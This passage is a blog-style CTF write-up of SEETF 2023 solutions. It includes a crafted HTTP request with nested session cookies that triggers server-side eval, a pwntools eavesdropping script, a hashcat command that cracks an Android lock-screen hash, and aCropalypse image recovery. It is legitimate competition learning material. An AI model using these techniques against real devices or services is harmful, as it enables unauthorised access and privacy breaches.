

## Overview

I played [SEETF 20223](https://ctf.hkcert.org/) over the weekend and had loads of fun. The CTF was well-organized with a lot of interesting and hard challenges. We ended up 1st place, solving 43 out of 52 challenges in total. Shoutout to *Social Engineering Experts* for the fun event!


I originally planned to play the CTF casually:


However, it is really hard to stop grinding when you are leading the scoreboard, and I ended up spending at least 30 hours in total on different challenges (solving, helping out, or just reading & giving mental support -_-). I think a few challenges that I solved are worth writing up, so here we go.

Below are the ones I solved or was one of the main solvers, and decided to writeup on. Note some writeups can be brief as I might not have the time for a full writeup.

| Category   |         Name       | Solves |
| ---------- | ------------------ | ------ |
| Web | [🎓福](#web---fu-13-solves--487-points) | 13 |
| Rev | [Data Structures and Algorithms](#rev---data-structures-and-algorithms-19-solves--481-points) | 19 |
| Rev | [Linear Programming](#rev---linear-programming-1-solve--499-points) | 1 |
| Crypto | [Qskates](#crypto---qskates-9-solves--491-points) | 9 |
| Misc | [Android Zoo](#misc---android-zoo-33-solves--465-points) | 33 |
| Misc | [Acrophobia](#misc---acrophobia-11-solves--489-points) | 11 |
| Misc | [Joe](#misc---joe-8-solves--492-points) | 8 |
| Misc | [my-first-python-project](#misc---my-first-python-project-4-solves--496-points) | 4 |

## Web - Fu (13 solves / 487 points)

### Description

```
░░░░█▐▄▒▒▒▌▌▒▒▌░▌▒▐▐▐▒▒▐▒▒▌▒▀▄▀▄░
░░░█▐▒▒▀▀▌░▀▀▀░░▀▀▀░░▀▀▄▌▌▐▒▒▒▌▐░
░░▐▒▒▀▀▄▐░▀▀▄▄░░░░░░░░░░░▐▒▌▒▒▐░▌            福福福福!
░░▐▒▌▒▒▒▌░▄▄▄▄█▄░░░░░░░▄▄▄▐▐▄▄▀░░
░░▌▐▒▒▒▐░░░░░░░░░░░░░▀█▄░░░░▌▌░░░
▄▀▒▒▌▒▒▐░░░░░░░▄░░▄░░░░░▀▀░░▌▌░░░
▄▄▀▒▐▒▒▐░░░░░░░▐▀▀▀▄▄▀░░░░░░▌▌░░░
░░░░█▌▒▒▌░░░░░▐▒▒▒▒▒▌░░░░░░▐▐▒▀▀▄
░░▄▀▒▒▒▒▐░░░░░▐▒▒▒▒▐░░░░░▄█▄▒▐▒▒▒
▄▀▒▒▒▒▒▄██▀▄▄░░▀▄▄▀░░▄▄▀█▄░█▀▒▒▒▒
```

[Attachment.zip](https://puu.sh/JIVRu/652137e0f0.zip)

### Analysis

Rarely do web, but decided to contribute when I saw `z3-solver` is in the Dockerfile. Maybe there's some crypto? Upon inspecting the code, I extracted the crypto part:

```py
with open('flag.txt') as flag:
	contents = flag.read()
	福 = contents.strip()

def solve(a_value, b_value, c_value, d_value, f_value):
	# Create the variables
	a, b, c, d, e, f = Ints('a b c d e f')

	# Set the relationships between the variables
	constraints = [And(8 <= v) for v in [a, b, c, d, e, f]]
	constraints += [a == a_value] 
	constraints += [b == b_value]
	constraints += [c == c_value]
	constraints += [d == d_value]
	constraints += [f == f_value]
	constraints += [(a ** 3) * (b**2 + c**2) * (2*d + 1) == (e**3) + (f**3)]

	# Find a satisfying solution
	s = Solver()
	s.add(constraints)
	if s.check() == sat:
		m = s.model()
		return int(m[e].as_long())
	else:
		return None

def secret(key):
	random.seed(key)
	return random.randint(8, 88888)
```

Here's how request is sent:

```py
@app.route('/福', methods=['POST'])
def fortold():
	keys.clear()
	start = request.form.get('key')
	app.config['SECRET_KEY'] = start
	replace_secret_key()

	value = [secret(key) for key in keys]
	result = solve(*value)

	if result is not None:
		return eval(chr(result))
	else:
		return 'Bad Luck.'
```

The end goal is to print the value of `福` which is the flag. Therefore we need `result` to be 31119 where `eval(chr(result))` is equivalent to `eval(福)`. We need to somehow provide 5 keys in the POST request, they will be used as the seed in `secret(key)`, the result (between 8 and 88888) is passed to `solve` as `a_value`, `b_value`, `c_value`, `d_value`, `f_value`. `e` is the variable we need to solve for from the `z3` solver.

### Step 1

Goal: We need to find 5 different keys  `8 <= a,b,c,d,f <= 88888` such that `(a ** 3) * (b**2 + c**2) * (2*d + 1) == (31119**3) + (f**3)`. This is fairly easy to achieve, as we can enumerate `f` from 8, then factor `31119**3 + f**3` to find if it has a factor which is a cube, and another factor which is sum of squares. There are a lot of such results and we can pick any of them.

```py
>>> f = 6072
>>> a = 253
>>> d = 73
>>> b,c = 72,87
>>> (a ** 3) * (b**2 + c**2) * (2*d + 1) == (31119**3) + (f**3)
True
```

### Step 2

We can brute force the key to find all 5 keys where `secret(key)` returns the values. It turns out the key is a string, not a number - the request object automatically parses as string, and `random.seed("1")` is different from `random.seed(1)` for whatever reasons. With above values, I got `keys = ["84774", "36318", "114697", "17506", "44893"]` which satisfies all conditions.

### Step 3

My teammate *Legoclones* finished this part. Basically it's just nested session cookies with different secret keys - we have a session cookie with another session cookies inside, with session cookies inside of that and so on etc. So we can construct a payload which will eventually decode to the keys. The logic is from:

```py
def replace_secret_key():
	if 'key' in session and session['key'] not in keys:
		keys.append(session['key'])
		app.config["SECRET_KEY"] = session['key']
	if 'session' in session and 'end' not in session:
		new_session = session['session']
		session.update(decrypt_cookie(new_session))
		replace_secret_key()
```

In the end we got the flag `SEE{H0w_f0rtun4T3_Y3t_An0theR__FL4sk_UnSigN_}` with the following payload:

```
POST /%E7%A6%8F HTTP/1.1
Host: xn--qkz.web.seetf.sg:1337
Content-Type: application/x-www-form-urlencoded
Cookie: session=.eJwNzcu2Y0AAQNF_MW5ZXsXVMyQimkLFK3di4aKEkiCh6NX_3jnDPTl_ma7amN_Ml6QoEvOLmat5bh_DRw6VvcINCknQaZrm6WJZiOEFTfl7JXG2dhhSMaF26G5ddpvZTzzP-up23OE62JyNIqfxpxb-IH7Y_e3VLsuiDHPZowBjGkvNws1Kd9NIZ4yTM56yp38qv0_nhJ417SxYGgoBa9Wrkb8AoGAlVS8HCotmjK2j-TCLCLjt9fkOoOwJz_xRGQlRsQItaJYelum2yzyI-qUt0vfZkSWpWCCRONQALLIY1n1igvpNh4tqhOLUC59rS8TJM13iRvCVWSXhcg7rMgdQoTd_AtPXEz_1Ho7DtXyd71-NS3ASq3fX9dpT8jqObCR79jYBX5DMhebsWKi3e0R2fuivah2PHTIalkueWp5KbBSGQ_ij0Ti0DKPrYi69DUoW-HIjEOnwfQn5sTng7k5FGQI7dTcA9eTooNbXsqvJc8y__9R_kRg.ZIT1wQ.HrgY3ri8U_nb-fVyr8utJD2vuNE
Connection: close
Content-Length: 8

key=lego
```

After the competition, I read [author's writeup](https://infosec.jaelkoh.com/ctfs/seetf-2023-fu) and came to know that the challenge idea was inspired by one of my tweets. What a coincidence!


## Rev - Data Structures and Algorithms (19 solves / 481 points)

### Description

It's your second semester in SEE-IA, and they're making you learn about data structures & algorithms. You don't get what it has to do with anything you'll be doing - how does capturing a bunch of escaped hackers need boring linked lists and trees? Classes are so boring, and sometimes you wish you could just drop out if the fate of the world wasn't hanging in the balance. But oh well, this is your last assignment. Better do a good job of it!

[data_structs_and_algos.exe](./data_structs_and_algos.exe)

### Solution

We are given a Windows PE file which prompts for flag upon execution. In decompiled `main`,

```c
v3 = sub_14000F2E0(std::cout, "Heard of a binary tree?", envp);
std::ostream::operator<<(v3, sub_14000F5E0);
v5 = sub_14000F2E0(std::cout, "Heard of an expression tree?", v4);
std::ostream::operator<<(v5, sub_14000F5E0);
v7 = sub_14000F2E0(std::cout, "Birds perch in trees too", v6);
std::ostream::operator<<(v7, sub_14000F5E0);
sub_14000F2E0(std::cout, "What's the flag? >> ", v8);
```

It further has a check which needs to return 0:

```c
v10 = sub_140001970(v9);
v12 = "Congrats!";
if ( v10 )
    v12 = "Try harder!";
```

Checking `sub_140001970`, it is a long function with many similar code blocks in the following format (I took the first block here):

```c
sub_14000F050(v2340, "2");
sub_14000F050(v2341, "2");
sub_14000F050(v2342, "*");
sub_14000F050(v2343, "2");
sub_14000F050(v2344, "*");
sub_14000F050(v2345, "7");
sub_14000F050(v2346, "+");
sub_14000F050(v2347, "2");
sub_14000F050(v2348, "2");
sub_14000F050(v2349, "*");
sub_14000F050(v2350, "2");
sub_14000F050(v2351, "*");
sub_14000F050(v2352, "+");
sub_14000F050(v2353, "2");
sub_14000F050(v2354, "2");
sub_14000F050(v2355, "*");
sub_14000F050(v2356, "2");
sub_14000F050(v2357, "*");
sub_14000F050(v2358, "+");
sub_14000F050(v2359, "7");
sub_14000F050(v2360, "+");
sub_14000F050(v2361, "2");
sub_14000F050(v2362, "2");
sub_14000F050(v2363, "*");
sub_14000F050(v2364, "3");
sub_14000F050(v2365, "*");
sub_14000F050(v2366, "+");
sub_14000F050(v2367, "7");
sub_14000F050(v2368, "+");
sub_14000F050(v2369, "2");
sub_14000F050(v2370, "2");
sub_14000F050(v2371, "*");
sub_14000F050(v2372, "2");
sub_14000F050(v2373, "*");
sub_14000F050(v2374, "+");
sub_14000F050(v2375, "2");
sub_14000F050(v2376, "5");
sub_14000F050(v2377, "*");
sub_14000F050(v2378, "+");
sub_14000F050(v2379, "2");
sub_14000F050(v2380, "2");
sub_14000F050(v2381, "*");
sub_14000F050(v2382, "2");
sub_14000F050(v2383, "*");
sub_14000F050(v2384, "+");
```

At this point, the values already looked like some abstract syntax tree. Since challenge hints on "binary expression tree", I quickly looked it up and found [online Python program](https://www.tutorialspoint.com/program-to-build-and-evaluate-an-expression-tree-using-python) which takes the post-order traversal of the tree and evaluates it. Evaulating on above code's numbers `['2','2','*','2',...,'2','*','+']` gives `83` which is the first letter of the flag "S".

I should have done it with scripting, but I didn't know there will be long random hex at the end of the flag at that time and chose to do it manually. Flag is really long and very painful for me: `SEE{5w1n61n6_7hr0u6h_7h3_7r335_51e72e7f398a4fb0e3b8cg8457167552}`.

## Rev - Linear Programming (1 solve / 499 points)

### Description

We've intercepted a message from the future! Unfortunately the message is protected by a password, and the software checks the password by running a GINORMOUS linear program. I guess the future just has more powerful computers, but we'd have to settle for waiting a few seconds for the result. Our team has extracted out the password checking code into a nice python script, can you recover the password?

Note: Access to a fast MILP solver isn't needed to solve this challenge.

[crackme.py](./crackme.py)

### Walkthrough

To my biggest surprise, I was the only solver to this challenge. I thought it is actually much easier than `Cubeland` and `CompileMe` (which we didn't manage to solve). It took me around an hour to solve. The reason is probably because


So we are given a large Python file with 25,000 lines of code (wtf) which uses some [Mixed-Integer Linear Programming Library](https://python-mip.readthedocs.io/en/latest/intro.html) and builds a SCIP model. It then defines 7792 binary (boolean 0 or 1) symbols in `X` and adds a bunch of constraints to the model:

```py
model = Model(solver_name=SCIP)
X = [model.add_var(var_type=BINARY) for _ in range(7792)]

# Initialise model
model += X[270] - Y[66] - Y[2] <= 0
model += X[270] + Y[66] + Y[2] <= 2
......
model += 10*X[1100] - 12*X[4662] + 4*X[6942] + 7*X[6572] + 2*X[5096] - 6*X[2668] - X[2866] + 13*X[2926] <= 16

status = model.optimize()
if status.name == "OPTIMAL":
    print("\u001b[32mPassword correct!\u001b[0m")
else:
    print("\u001b[31mPassword wrong!\u001b[0m")
```

Eventually, it checks if the model is optimal and prints the flag if it is. From this part of the code:

```py
flag = input("Input password: ")
m = re.match(r"^SEE\{(.+)\}$", flag)
assert m and len(flag) == 25, "uwu"
password = m.groups()[0].encode()
assert all(c in ALLOWED_CHARS for c in password), "owo"
Y = bytes_to_bits(password)
```

We come to know `password` length is 20 and `Y` is a bit vector of size 160. The constraints are all linear equations and inequalities, so it is pretty much a standard linear programming problem. 

At first I was scared by the 0 solve at end of the first day, so I didn't really expect myself to solve it (as a reverse challenge). Instead, having playtested and learned Linear Programming stuff from *deu-terium*'s [SekaiCTF 2022 challenge](https://github.com/project-sekai-ctf/sekaictf-2022/blob/main/crypto/failproof/solution/solve_lp.py), my immediate thought is to leverage [Google's OR-TOOLS](https://developers.google.com/optimization/mip/mip_example) and port the code using `ortools` since it is fast and powerful. 

It is not easy though, because `Y` is not random 160 bits - it needs to satisfy some regex check when converted to `password`. i.e., the 0,8,...,152th bit of `Y` needs to be 0, and `Y[i+1]*64 + Y[i+2]*32 + Y[i+3]*16 + Y[i+4]*8 + Y[i+5]*4 + Y[i+6]*2 + Y[i+7]*1` should be in `ALLOWED_CHARS` for `i = 0, 8, 16, ..., 152`.

I originally didn't think of this part, and it turns out solver will give garbage output. In the end I used ChatGPT to get the logics: [OR-Tools Check Variable Constraints](https://chat.openai.com/share/4f83cedc-db08-4520-a90d-4b5ea7065ef2)

Putting everything together and porting all those 25k lines of constraints to `ortools`, we come up with the solve script:

```py
from ortools.sat.python import cp_model

ALLOWED_CHARS = set([*b"0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!?#$%&-_"])

model = cp_model.CpModel()
X = [model.NewBoolVar(f"x{i}") for i in range(7792)]
Y = [model.NewBoolVar(f"y{i}") for i in range(160)]

for i in range(0, 160, 8):
    model.Add(Y[i] == 0)
    linear_expr = Y[i+1]*64 + Y[i+2]*32 + Y[i+3]*16 + Y[i+4]*8 + Y[i+5]*4 + Y[i+6]*2 + Y[i+7]*1
    is_allowed = model.NewBoolVar("is_allowed")
    is_char = [model.NewBoolVar(f"is_char_{char}") for char in ALLOWED_CHARS]
    for char, var in zip(ALLOWED_CHARS, is_char):
        model.Add(linear_expr == char).OnlyEnforceIf(var)
    model.AddBoolOr(is_char).OnlyEnforceIf(is_allowed)
    model.Add(is_allowed == 1)

model.Add(X[270] - Y[66] - Y[2] <= 0)
... (30k lines of model.Add)

solver = cp_model.CpSolver()
status = solver.Solve(model)

if status == cp_model.OPTIMAL:
    for y in Y:
        print('y = %i' % solver.Value(y))
```

It will only take around 5 minutes to print the resulting `Y`s. Decoding from bits to ASCII we will get the flag!

Upon checking with author, apparently my solution was a "cheese" and author didn't know the tool. Using some other LP tool like `gurobi` will take more than 24 hours... I guess I was just lucky to have learned OR-Tools from SekaiCTF 2022.

PS. Intended is something called "Constant Propagation" and we need to do some graph traversals to get the values. [Here](https://juliapoo.github.io/ctf/2023/05/12/seetf2023-author-writeup.html#linear-programming) is the author writeup.

## Crypto - Qskates (9 solves / 491 points)

### Description

Alice and Bob love skating so much, they've gotten Eve into it!

Turns out Eve is a skater herself and wants to know Alice's secret. She's placed herself right in the middle of their conversation, can you help her figure out the secret?

[Qskates.py](./qskates.py)

### Brief Solution

Most part was solved by my teammate *Quasar*, I helped with observations and final implementation.

Basic idea quoted from *Quasar*:

- Part 1: Recover `alice_bases` and `alice_bits`

> The tldr is the bits and bases are always constant, so what we can do is look at our measured values and guess a base for all the bits (say base 0) quite a few times. the bits that remain constant every time they are measured with our guessed base have been measured with the right base (and hence are the keybits), then we can query 1 more time with the other base to get the keybits one (small) group of interactions example (all of this is 1 connection, interaction means round of while loop) with 3 rounds (low probability of being accurate, more rounds of this == more chance of accuracy)

Here's a PoC to get `alice_bases` and `alice_bits`:

```
# from local print
alice_bits = array([0, 1, 1, 1, 0, 1, 1, 0])
alice_bases = array([0, 0, 1, 1, 1, 0, 1, 1])

Enter bases to intercept: 00000000
Measured message: [0, 1, 0, 1, 0, 1, 0, 0]
Enter bits to send to Bob: 11111111
True
Enter bases to intercept: 00000000
Measured message: [0, 1, 1, 1, 1, 1, 1, 0]
Enter bits to send to Bob: 11111111
True
Enter bases to intercept: 00000000
Measured message: [0, 1, 0, 1, 1, 1, 1, 1]
Enter bits to send to Bob: 11111111   
True
Enter bases to intercept: 00000000
Measured message: [0, 1, 1, 1, 1, 1, 1, 1]
Enter bits to send to Bob: 11111111
True
Enter bases to intercept: 00000000
Measured message: [0, 1, 0, 0, 0, 1, 0, 0]
Enter bits to send to Bob: 11111111
True
Enter bases to intercept: 00111011
Measured message: [0, 1, 1, 1, 0, 1, 1, 0]
Enter bits to send to Bob: 
```

As we can see from all the "Measured message" outputs, in index 0, all values are always 0 (the same), so first value of `alice_bases` is 0. Similarly index 1 is 0. For index 2, there are both 0 and 1 bits in "Measured message" outputs, so index 2 of `alice_bases` is 1. We can repeat this process for all 8 bits and get `alice_bases`. Now send this base as "Enter bases to intercept" and we get `alice_bits`.

- Part 2: Recover `bob_bases`

PoC:

```
alice_bits=array([1, 1, 0, 1, 1, 1, 0, 0])
alice_bases=array([0, 0, 0, 0, 1, 1, 1, 0])
bob_bases=array([1, 0, 0, 1, 0, 1, 0, 1])
Enter bases to intercept: 
Measured message: []
Enter bits to send to Bob: 1
True
Enter bases to intercept: 
Measured message: []
Enter bits to send to Bob: 0
True
Enter bases to intercept: 
Measured message: []
Enter bits to send to Bob: 10
False
Enter bases to intercept: 
Measured message: []
Enter bits to send to Bob: 11
True
Enter bases to intercept: 
```

Key idea: For each index, if either sending 0 or 1 to Bob always gives "True", it means this position of `bob_bases` is different from `alice_bases`. This is because

```py
def remove_garbage(a_bases, b_bases, bits):
	good_bits = []
	for q in range(n):
		if a_bases[q] == b_bases[q]:
			good_bits.append(bits[q])
	return good_bits
```

If base bits are different, we will skip it in appending to `good_bits`. So if we always get "True" at index `i`, it means `bob_bases[i] != alice_bases[i]`. Otherwise, it means `bob_bases[i] == alice_bases[i]`. And we take whichever yields "True" (in above case "11" instead of "10") to continue the bit-by-bit leak process. Eventually we get `bob_bases`.

In the end, we can implement the above in Python to solve. Added some comments for clarity.

```py
from pwn import *
from Crypto.Util.number import long_to_bytes
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
import os
import hashlib
import ast

def remove_garbage(a_bases, b_bases, bits):
    good_bits = []
    for q in range(n):
        if a_bases[q] == b_bases[q]:
            good_bits.append(bits[q])
    return good_bits

n = 100

io = remote("win.the.seetf.sg", 3004)

iv = bytes.fromhex(io.recvline().decode().strip().split(" = ")[-1])
enc = bytes.fromhex(io.recvline().decode().strip().split(" = ")[-1])

print(iv)
print(enc)

results = []
for _ in range(20):
    io.sendlineafter(b"Enter bases to intercept: ", b"0"*n)
    res = io.recvline().decode().strip().split(": ")[-1]
    results.append(ast.literal_eval(res))
    io.sendlineafter(b"Enter bits to send to Bob: ", b"")
    io.recvline()
# print(results)

# recover alice_bases: if all 10 values at same index are the same, use bit 0 for alice_bases at this index
alice_bases = []
for i in range(n):
    if all(x[i] == results[0][i] for x in results):
        alice_bases.append(0)
    else:
        alice_bases.append(1)
print(f"alice_bases: {alice_bases}")

# get alice_bits
io.sendlineafter(b"Enter bases to intercept: ", "".join(map(str, alice_bases)).encode())
res = io.recvline().decode().strip().split(": ")[-1]
alice_bits = ast.literal_eval(res)
print(f"alice_bits: {alice_bits}")
io.sendlineafter(b"Enter bits to send to Bob: ", b"")
io.recvline()

# leak bob_bases bit by bit
bob_bases = []
curr = ""
while len(bob_bases) < n:
    print(f"bob_bases: {bob_bases}")
    io.sendlineafter(b"Enter bases to intercept: ", b"")
    io.recvline()
    io.sendlineafter(b"Enter bits to send to Bob: ", (curr + "0").encode())
    res1 = io.recvline().decode().strip()
    io.sendlineafter(b"Enter bases to intercept: ", b"")
    io.recvline()
    io.sendlineafter(b"Enter bits to send to Bob: ", (curr + "1").encode())
    res2 = io.recvline().decode().strip()
    if res1 != res2:
        # same bit as alice_bases
        bob_bases.append(alice_bases[len(bob_bases)])
        if res1 == "True":
            curr += "0"
        else:
            curr += "1"
    else:
        # different bit from alice_bases
        bob_bases.append(1 - alice_bases[len(bob_bases)])
        curr += "0"

print(f"bob_bases: {bob_bases}")

alice_key = remove_garbage(alice_bases, bob_bases, alice_bits)
print(f"alice_key: {alice_key}")
key = hashlib.sha256(''.join([str(i) for i in alice_key]).encode()).digest()[:16]
print(f"key: {key}")
cipher = AES.new(key=key, iv=iv, mode=AES.MODE_CBC)
print(cipher.decrypt(enc))
```

Output:

```
[+] Opening connection to win.the.seetf.sg on port 3004: Done
b'\xd6\x9a\xf2\xfe\x01\xb2\x97\x1f")C=^N`/'
b'(\xf7 \x84C\xc4\xe5(Z\xb7\xe7\x9be\xady\\\xf7\xe4\x89\x81\xbfI\xea\xd8\xf8\x82\x07M\xdf6\x93%%\x8f\x854\xda\x9a\xe0\xf1A\x95\xb5\x899=6\x12wR\xae\xd8\xc1JN\x91\x07\xd8GCnk\xbe\xfc'
alice_bases: [0, 1, 0, 0, 0, 0, 1, 1, 1, 0, 0, 1, 1, 1, 0, 1, 0, 1, 0, 1, 1, 1, 0, 1, 1, 1, 1, 0, 0, 1, 0, 0, 0, 0, 0, 1, 0, 0, 1, 0, 1, 0, 0, 1, 0, 0, 1, 1, 1, 1, 0, 1, 1, 0, 0, 1, 1, 1, 1, 0, 1, 0, 0, 0, 0, 1, 0, 1, 0, 1, 0, 0, 0, 1, 0, 0, 1, 1, 0, 1, 0, 1, 1, 1, 0, 0, 1, 0, 0, 0, 0, 0, 1, 1, 1, 0, 0, 1, 0, 1]
alice_bits: [1, 1, 0, 1, 1, 0, 1, 0, 0, 0, 0, 1, 0, 1, 1, 0, 1, 1, 0, 1, 0, 1, 1, 0, 1, 0, 1, 1, 0, 1, 0, 1, 0, 1, 1, 0, 1, 1, 1, 1, 1, 1, 0, 1, 1, 0, 1, 0, 1, 0, 1, 0, 0, 1, 0, 1, 0, 0, 0, 0, 0, 0, 0, 1, 0, 1, 0, 0, 0, 0, 1, 1, 0, 0, 0, 0, 1, 0, 1, 0, 1, 0, 0, 1, 0, 0, 1, 1, 1, 0, 0, 0, 0, 1, 0, 0, 0, 0, 1, 0]
bob_bases: []
bob_bases: [1]
bob_bases: [1, 0]
bob_bases: [1, 0, 1]
......
bob_bases: [1, 0, 1, 0, 0, 1, 1, 0, 0, 1, 1, 1, 1, 1, 0, 0, 1, 0, 0, 0, 0, 0, 1, 0, 0, 1, 1, 0, 1, 1, 1, 1, 0, 0, 0, 0, 0, 1, 0, 1, 0, 1, 0, 1, 0, 0, 1, 1, 0, 0, 1, 0, 0, 1, 0, 0, 0, 0, 0, 1, 1, 1, 0, 1, 0, 0, 1, 1, 1, 1, 1, 0, 0, 0, 0, 0, 1, 0, 1, 1, 0, 1, 0, 0, 0, 1, 0, 1, 1, 1, 1, 0, 0, 1, 0, 0, 1, 1, 0, 1]
alice_key: [1, 1, 1, 1, 0, 1, 1, 0, 0, 1, 1, 1, 0, 1, 1, 1, 0, 1, 1, 0, 1, 0, 0, 0, 0, 0, 0, 0, 1, 0, 0, 0, 1, 0, 1, 0, 0, 0, 1, 0, 0, 1, 0]
key: b'J\xda\x1e\xc5\xa0\xa0\xde\xe2\xc3YX\xfa\x9f\xa3uH'
b'SEE{qUanTuM_k3Y_d1sTribUt1ON_r_0nlY_t0_b3_u5ed_0nce:12843}\n\x05\x05\x05\x05\x05'
```

## Misc - Android Zoo (33 solves / 465 points)

### Description

Who knew pigeons could use Android phones?

This sus pigeon stored the flag on 2 phones, and the flag format is `SEE{<password>:<gesture_pattern>}`.

For example, if the password is `password` and the gesture pattern is `1337`, the flag is `SEE{password:1337}`

Hint: Don't worry, the password is in rockyou!

Side note: why aren't there any pigeons in zoos?

[dist_android-zoo.zip](./dist_android-zoo.zip)

### Solution

Quite an easy challenge, but a fun one where I learned something new about Android password/gesture storage.

We are given 2 devices, one with a password and the other with gesture pattern that both need to be cracked.

The second device has a password which seems to be from `rockyou.txt` according to the hint, so I tried that first.

```
Samsung Galaxy S7
Android API 5.1 - API 22
```

`password.key` contains the hash `6DFE4D0C832761398B38D7CFAD64D78760DEBAD266EB31BD62AFE3E486004CE6ECEC885C`.

With some Googling with `password.key` and `Samsung` as keywords, we immediately found [Breaking Samsung Android Passwords/PIN](https://www.web3us.com/cyber-security/breaking-samsung-android-passwordspin) which can be followed to solve this part.

```bash
$ sqlite3 locksettings.db 
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> Select * from locksettings where name like "lock%";
2|lockscreen.disabled|0|1
5|lockscreen.enabledtrustagents|0|
7|lockscreen.patterneverchosen|0|1
9|lock_pattern_visible_pattern|0|1
10|lockscreen.password_salt|0|8074783686056175940
11|lock_pattern_autolock|0|0
13|lockscreen.password_type_alternate|0|0
14|lockscreen.password_type|0|327680
15|lockscreen.passwordhistory|0|
```

From here we know `700f64fafd7f6944` is the salt (in hex). Run Hashcat: `.\hashcat.exe -m 10 -a 0 66EB31BD62AFE3E486004CE6ECEC885C:700f64fafd7f6944 .\wordlist\rockyou.txt -O` gives us the password `PIGeon4ever`.

For the first device, I found another Chinese article [Cracking gatekeeper.pattern.key](http://www.hackdig.com/05/hack-356357.htm) with exactly the same setup again. 

```
Google Nexus 5
Android API 6.0 - API 23
```

```xml
<?xml version='1.0' encoding='utf-8' standalone='yes' ?>
<policies setup-complete="true">
<active-password quality="65536" length="5" uppercase="0" lowercase="0" letters="0" numeric="0" symbols="0" nonletter="0" />
</policies>
```

This shows gesture pattern is 5 digits long. We just need to generate all 5-digit numbers (non-repeating) and use the script provided in the blog post to crack the number. This will give us the flag.

## Misc - Acrophobia (11 solves / 489 points)

### Description

I have a~~n extreme or ir~~rational fear of heights, even when I'm not particularly high up. It seems like every other day someone is ~~helping~~ pushing me in hopes that I would fall from a window. That's why I dislike being exposed to heights, including in images. I'll crop all heights out of my sight.

### Summary

From the description and checking the given image, we immediately know a few things:

- The image actually has 2 `IEND`s, some data are trailing after `IEND`
- The image is cropped in height on *Windows*
- This challenge seems related with the recent infamous [aCropalypse](https://en.wikipedia.org/wiki/ACropalypse) vulnerability. The original vulnerability allows an attacker to view an uncropped and unaltered version of a screenshot from cropped Google Pixel phone. [Another similar 0-day](https://twitter.com/David3141593/status/1638222624084951040) was found for *Snip & Sketch* on Windows 10 and Snipping Tool for Windows 11.

With these information in hand, we did a lot of OSINT and eventually found [a script David Buchanan wrote](https://gist.githubusercontent.com/DavidBuchanan314/93de9d07f7fab494bcdf17c2bd6cef02/raw/dc92b2d8e4d4ded6db5e4e98afb6e1617e8aebc4/acropalypse_matching_sha256.py) which only works for Android version. To fix the script, we need to support RGBA instead of RGB, and the only modification is 

```py
ihdr += (2).to_bytes(1, "big") # true colour
# change it to (6)
```

We spent a lot of time afterwards guessing the height is equivalent to the width, but no luck. Eventually my teammate found out the original image can be founded from attachment file name search on Google, which is 4032. With that, we can recover the image from script.


Flag is located at [https://pastebin.com/raw/5DWc4ycv](https://pastebin.com/raw/5DWc4ycv).

PS. I had a Discord message in March about a potential CTF challenge from this vulnerability when it came out. Someone really did it :D


## Misc - Joe (8 solves / 492 points)

### Description

Can you find Joe in the future of multiverses?

```py
import random

FLAG = "SEE{<REDACTED_FLAG>}"

MAX_RADIUS = 2000000000
ATTEMPTS = {5:340, 6:410, 7:470, 8:540, 9:610, 10:670}

e = 7
n = random.randint(5,10)

if __name__ == '__main__':
    print("Welcome to the game of 'Where are you?'")
    print(f"You have to find the Joe in a {n}D plane.")
    print("Who is Joe? I don't know, but he is somewhere in the multiverse.")
    print("You have to find him in the least amount of attempts possible.")
    print("You can only ask for the distance between your point and Joe's point.")
    print(f"You can give me the coordinates of your point as a list of {n} integers separated by spaces.")
    print("The game will tell you if your point is detected if you find his galaxy.")
    print("The game will tell you if you find him if you get his exact location.")
    print("Joe is very shy, so he will move to some other universe every time you find him.")
    print("The game will end if you reach the maximum number of attempts.")
    print("Joe will give you the flag if you find him and when he is not shy.")
    print("Good luck!")
    howmanytimes = random.randint(20,30)
    for i in range(howmanytimes):
        print(f"Find Joe #{i}:")
        R = random.randint(MAX_RADIUS // 4, MAX_RADIUS // 2)
        COORDS = []
        for j in range(n):
            c = random.randint(-R + MAX_RADIUS//4 , R - MAX_RADIUS//4)
            COORDS.append(c)

        for a in range(ATTEMPTS[n]):
            line = input("> ")
            coords = [int(n) for n in line.split(' ')]
            if len(coords) != n:
                print("You cannot find Joe in a different dimension.")
                exit(1)
            D = 0
            for i in range(n):
                D += (COORDS[i] - coords[i]) ** 2
            D = D ** 0.5
            if D <= e:
                print("\033[94mJoe Point", end="\n\033[0m")
                break
            elif D <= R:
                print("\033[92mInside his Galaxy Point", end="\n\033[0m")
            else:
                print("\033[91mOutside his Galaxy Point", end="\n\033[0m")
        else:
            exit(1337)

    print(f'Wow you found me so many times! Here is your flag: {FLAG}')
```

### Summary

We are given a random point in a n-dimensional space, and we need to guess the point in the least amount of attempts. Each guess we will only know if the distance between our guess and true location is bigger or smaller than `R`.

The algorithm and code are commented in solve script below.

```py
from pwn import *

MAX_RADIUS = 2000000000

io = remote('win.the.seetf.sg', 4001)
io.recvline()
rec = io.recvline().decode().strip()
print(rec)
n = int(rec.split(" ")[-2][:-1])
print(f"n: {n}")
io.recvuntil(b"Good luck!\n")

while True:
    print(io.recvline().decode().strip())
    # goal: find n integers such that (a1,...,an) is closest to their coordinates
    # idea: fix n-1 dimensions to 0, binary search last dimension (-MAX_RADIUS//2, 0) and (0, MAX_RADIUS//2)
    # this gives two points x<0 and y>0, the actual number is close to (x+y)/2
    ans = []
    for i in range(n):
        l, r = -MAX_RADIUS//2, 0
